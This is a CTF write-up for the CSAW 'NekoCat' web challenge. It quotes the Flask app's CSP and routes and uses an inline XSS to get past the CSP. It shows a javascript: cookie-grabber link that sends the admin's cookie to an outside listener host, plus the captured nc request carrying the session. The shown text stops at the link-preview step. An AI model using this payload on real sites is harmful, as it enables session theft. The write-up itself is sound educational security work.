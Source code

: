 # NekoCat WEB 500 
![NikoCat](http://web.chal.csaw.io:1003/static/favicon.ico)
## Difficulty: ★★★★★

Link: http://web.chal.csaw.io:1003

# Idea

> * Bypass CSP by Abusing XSS Filter using inline
> * Escalate user permissions
> * Abusing URL Parser to read environment variables
> * Craft malicious session lead to RCE

# Walkthrough
description provide us the source code of the challenge 
[flagon.zip](https://ctf.csaw.io/files/a75d5b38afc3d477873e8ce01c468d85/flagon.zip)

we notice that challange uses Python Flask
so let's create account and try to see what's happen there 
http://web.chal.csaw.io:1003/register

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/ae6ec98e-8b7c-4909-9fc6-a2c6fe880bf5.png)

we try to post link but we can see only verfied users can preview link 

> app.py Line:152
```python
if verified_user(session, request.session.get('username'))[0]:
    preview = get_post_preview(link)
 ```
so the idea here is to get permession of verfied user in plateform
we can trigger an XSS attack to steal cookies from admin maybe
but when we dig more in the source code we see there is CSP rules implemented
> app.py Line:51
```python
def apply_csp(f):
    @wraps(f)
    def decorated_func(*args, **kwargs):
        resp = f(*args, **kwargs)
        csp = "; ".join([
                "default-src 'self' 'unsafe-inline'",
                "style-src " + " ".join(["'self'",
                                         "*.bootstrapcdn.com",
                                         "use.fontawesome.com"]),
                "font-src " + "use.fontawesome.com",
                "script-src " + " ".join(["'unsafe-inline'",
                                          "'self'",
                                          "cdnjs.cloudflare.com",
                                          "*.bootstrapcdn.com",
                                          "code.jquery.com"]),
                "connect-src " + "*"
              ])
        resp.headers["Content-Security-Policy"] = csp

        return resp
    return decorated_func
```
CSP is allowing javascript inline resources
so we can excute XSS in URL

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/e1458bad-b01f-4941-ba36-9c2ebb1e2020.png)

> but hold on xss triggred on when admin click on link

after another dig in plateform we noticed missing part 
> app.py Line:178
```python
@app.route('/report')
@apply_csp
def report(request):
    #: neko checks for naughtiness
    #: neko likes links
    pass
```
so there is feature that check links that reported , this the way how our admin checks the inline XSS link

let's craft and cookie grabber 
> [link]javascript:document.location="http://pwn.com:2128/"+document.cookie

and we listen for the request and report the link for being broken 
```
root@serveur [~]# nc -l 2128
GET /session_data=%22YWzU8XcjGIq5lmuao7nR65VW3yg=?name=gANYCAAAAE5la28gQ2F0cQAu&username=gANYDQAAAG1lb3dfYzdkM2M1MDhxAC4=%22 HTTP/1.1
Host: pwn.com:2128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:5000/post?id=20762&instance=c7d3c508-1b2a-481e-a83e-5e3214938bc5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

> Bingo we have the verfied user session so we can preview sites now 

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/0b810f23-03d8-4889-80da-559d79829b1f.png)

lets try to preview site 
> [link]http://www.google.com

it works

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/8b72962e-0868-4c32-8e89-e2442588fb7d.png)



